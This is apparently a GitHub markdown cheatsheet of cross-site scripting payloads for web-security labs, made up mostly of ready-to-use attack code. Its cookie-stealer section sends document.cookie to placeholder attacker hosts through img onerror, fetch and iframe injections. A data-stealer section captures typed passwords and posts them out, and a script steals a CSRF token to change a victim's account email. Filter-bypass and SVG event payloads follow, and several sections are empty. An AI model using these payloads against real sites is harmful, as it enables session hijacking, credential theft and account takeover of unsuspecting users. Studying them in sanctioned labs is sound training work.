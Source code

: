 # XSS - CHEATSHEET + LABS

## Index
- [Walkthrough - Most Important Labs](#walkthrough---most-important-labs)
- [Generic & POC xss payloads](#generic-payloads-poc)
- [COOKIE-STEALER](#cookie-stealer)
- [DATA-STEALER](#data-stealer)
- [BYPASS-RESTRICTIONS](#bypass-restrictions)
- [BYPASS-CPS](#bypass-cps)
- [SVG-TAGS](#svg-tags)
- [CUSTOM-TAGS](#custom-tags)
- [CANONICAL-TAGS](#canonical-tags
- [FIND TAGS AND EVENTS ALLOWED](#find-tags-and-events-allowed)
- [ANGULAR JS](#angular-js)


## Walkthrough - Most Important Labs

- [1]()
- [2]()
- [3]()
- [4]()


## CHEATSHEET


> :test_tube POC of cookie stealer in your browser:

 In web browser → DevTools → Console add a test cookie

```js
document.cookie = "cookieTest=STEAL-ME-PLS";
```

![Screenshot1](/04-Screenshots/poc1.png)

> Find an XSS vulnerability and inject a cookie-exfiltration payload targeting a controlled collaborator endpoint.

![Screenshot2](/04-Screenshots/poc2.png)

![Screenshot3](/04-Screenshots/poc3.png)

Repeat the same procedure with the target victim


####  GENERIC-PAYLOADS-POC
```js
<script>alert(1)</script>
<img src=0 onerror=alert(0)>
<img src=x onerror="&#x61;lert(1)">
<img src=x onerror="#00000000000058;alert(1)">
' - alert(1) - '
' + alert(1) + '
javascript:alert(0)

```

#### COOKIE-STEALER
```js
<img src=0 onerror="new Image().src='http://<IP>/?cookie='+btoa(document.cookie)">

<img src=0 onerror="fetch('http://<IP>/?cookie='+btoa(document.cookie))">

<iframe src="<IP>/?cookie='+btoa(document.cookie))" onload=<img src=1 onerror=alert(1)> hidden="hidden"</iframe>

<script>fetch(`https://<BURP-COLAB>.net`, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});</script>
<script>fetch(`https://<EXPLOIT-SV>.net`, {method: ‘POST’,mode: ‘no-cors’,body:document.cookie});</script>


```

#### DATA-STEALER
```js
// steal creds + cors bypass 
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://IP>',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
```js
 // steal csrf token + cors bypass
 <script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```


#### BYPASS-RESTRICTIONS
```js
// -> escape ' with \
\'<script>alert(1)</script>
// -> escape \ with other \ and escape ' with \
\\'<script>alert(1)</script>
// -> 
</script><script>alert(1)</script>

```

#### BYPASS-CPS
```js

```


#### SVG-TAGS
```js

<svg><animateTransform onbegin=alert(0)>

<svg><a><animate attributeName= href values=javascript:alert(0) /><text x=30 y=30>Click me!</a>

```


#### CANONICAL-TAGS
```js

```


#### CUSTOM-TAGS
```js

```

#### FIND-TAGS-AND-EVENTS-ALLOWED




#### ANGULAR-JS
```js

```